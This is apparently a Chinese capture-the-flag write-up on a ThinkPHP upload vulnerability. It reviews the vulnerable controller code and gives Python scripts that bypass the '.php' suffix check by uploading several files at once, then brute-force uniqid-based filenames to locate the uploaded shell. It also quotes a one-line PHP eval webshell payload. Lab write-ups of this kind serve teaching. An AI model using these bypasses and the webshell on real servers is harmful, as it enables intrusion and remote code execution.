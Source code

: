 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-27
---
```


## 思路

1.打开网页，首先是一段php源码，如下：

```php
 <?php 
    namespace Home\Controller; 
	use Think\Controller; 
	class IndexController extends Controller {   
        public function index()   
        {     
            show_source(__FILE__);   
        }   
        public function upload()   
        {     
            $uploadFile = $_FILES['file'] ;         
            if (strstr(strtolower($uploadFile['name']), ".php") ) {       
                return false;     
            }         
            $upload = new \Think\Upload();// 实例化上传类     
            $upload->maxSize = 4096 ;// 设置附件上传大小     
            $upload->allowExts = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型     
            $upload->rootPath = './Public/Uploads/';// 设置附件上传目录     
            $upload->savePath = '';// 设置附件上传子目录     
            $info = $upload->upload() ;  //此处存在漏洞   
            if(!$info) {// 上传错误提示错误信息      
                $this->error($upload->getError());      
                return;     
            }else{// 上传成功 获取上传文件信息      
                $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
                echo json_encode(array("url"=>$url,"success"=>1));     
            }   
        } 
    } 
```

分析该段代码：

- 首先会获取上传文件的文件名，并将其转化为小写，判断是否包含.php。

- 限制了上传文件的最大大小：4096

- 限制了可以上传的文件类型：jpg、gif、png、jpeg

- thinkphp**默认上传路径**是/home/index/upload

- 这里调用**upload()函数**，该函数存在一个漏洞，

  在不传参时为多文件上传，整个$FILES数组的文件都会上传保存，但该题只限制了$_FILES[file]的上传后缀，因此就可以通过上传多文件绕过php后缀限制。
  
  

2. 该题与常规的有文件上传按钮的题目不同，需要自己构建POST请求，上传文件。--》可以写python脚本实现

   > $_FILES是一个预定义的数组，用来获取通过POST方法上传文件的相关信息。
   >
   > 单个文件上传--》$_FILES为二维数组
   >
   > 多个文件上传--》$_FILES为三维数组

   利用python进行POST请求上传文件，格式如下：

   ![img](./../images/202011201118394.png)

3. thinkphp上传文件时，文件名是按顺序递增的

采用下面的脚本，上传多个文件，来绕过对文件后缀名的检测

> 查看thinkphp源码得知文件名是通过uniqid函数生成的，uniqid函数是基于**以微秒计**的当前时间计算的，两个同时上传生成的文件名相差不会太远，因此可以在两个文件名之间进行暴力遍历，找到上传的木马文件的文件名。
> 除了此方法外，还可以使用`<>`绕过，载荷为`res=requests.post(url,files={'file':('webshell.<>php','<?php @eval($_POST["shell"]); ?>')})`

```python
import requests

url = 'http://7a4fb2e4-7ba4-49b0-a137-450ceea340d1.node3.buuoj.cn/index.php/home/index/upload'
file1 = {'file':open('special_dict.txt','r')}
file2 = {'file[]':open('test.php','r')}//upload()不传参时即是批量上传所以用[]

r = requests.post(url,files = file1)
print(r.text)

r = requests.post(url,files = file2)
print(r.text)

r = requests.post(url, files = file1)
print(r.text)
```

4. 可以看到上传的两个txt文件的文件名前几位都相同，只有最后五位不同，因此可以只遍历后五位，找出上传的木马php文件的文件名，然后再进行连接。

<img src="./../images/image-20201227212507106.png" alt="image-20201227212507106" style="zoom:50%;" />

	进行遍历的脚本为：

```python
dir ='abcdef0123456789'
for i in dir:
    for j in dir:
        for k in dir:
            for x in dir:
                for y in dir:
                    url = 'http://e2a3bb2f-2911-4b51-b679-0d15f7f3899b.node3.buuoj.cn/Public/Uploads/2020-12-27/5fe88b1b{}{}{}{}{}'.format(i,j,k,x,y)
                    #print(url)
                    print("next")
                    r = requests.get(url)
                    if r.status_code == 200:
                        print(url)
                        break
```



## 总结

- 本题主要考查的是对thinkphp的upload文件上传漏洞
  - 上传多个文件，即可绕过对文件后缀名的检测，成功上传php文件
  - upload函数默认上传的文件路径为/home/index/upload
  - thinkphp上传文件后会修改文件名，根据上传时间生成，因此同时上传的文件一般文件名比较接近。